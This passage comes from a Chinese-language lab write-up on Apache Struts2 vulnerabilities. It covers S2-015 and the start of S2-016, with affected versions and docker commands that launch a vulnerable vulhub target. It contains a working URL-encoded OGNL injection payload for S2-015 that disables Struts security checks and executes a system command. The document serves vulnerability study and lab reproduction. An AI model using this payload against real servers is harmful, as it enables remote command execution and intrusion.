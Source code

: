 ![s2-015-2](images/s2-015-2.png)

任意命令执行 PoC，执行 `id` 命令

```
/%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27id%27).getInputStream())%2C%23q%7D.action
```

## S2-016

Struts2 提供了在参数中使用 `action:`、`redirect:`、`redirectAction:` 前缀指定应用程序重定向路径或 action 的功能，处理重定向结果时没有过滤直接使用 OGNL 解析道导致出现漏洞。

官方公告：[S2-016](https://cwiki.apache.org/confluence/display/WW/S2-016)

### 影响版本

- [x] Struts 2.0.0 - 2.3.15

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-016
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面

![s2-016-1](images/s2-016-1.png)
